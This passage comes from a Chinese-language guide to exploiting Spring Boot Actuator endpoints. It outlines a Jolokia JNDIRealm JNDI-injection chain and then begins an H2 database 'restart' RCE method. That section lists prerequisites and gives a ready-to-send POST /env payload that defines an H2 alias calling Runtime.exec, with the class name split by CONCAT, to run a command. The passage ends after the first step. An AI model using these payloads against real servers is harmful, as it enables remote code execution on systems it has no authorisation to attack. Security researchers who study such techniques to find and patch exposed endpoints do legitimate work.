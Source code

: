 #### 漏洞原理：

1.  利用 jolokia 调用 createJNDIRealm 创建 JNDIRealm
    
2.  设置 connectionURL 地址为 RMI Service URL
    
3.  设置 contextFactory 为 RegistryContextFactory
    
4.  停止 Realm
    
5.  启动 Realm 以触发指定 RMI 地址的 JNDI 注入，造成 RCE 漏洞
    

#### 漏洞分析：

 Yet Another Way to Exploit Spring Boot Actuators via Jolokia

#### 漏洞环境：

repository/springboot-jolokia-logback-rce

正常访问：

```
http://127.0.0.1:9094/env


```

### 0x06：restart h2 database query RCE

#### 利用条件：

*   可以 POST 请求目标网站的 `/env` 接口设置属性
    
*   可以 POST 请求目标网站的 `/restart` 接口重启应用
    
*   存在 `com.h2database.h2` 依赖（版本要求暂未知）
    

#### 利用方法：

##### 步骤一：设置 spring.datasource.hikari.connection-test-query 属性

> ⚠️ 下面 payload 中的'T5' 方法每一次执行命令后都需要更换名称 (如 T6) ，然后才能被重新创建使用，否则下次 restart 重启应用时漏洞不会被触发

spring 1.x（无回显执行命令）

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.datasource.hikari.connection-test-query=CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');


```
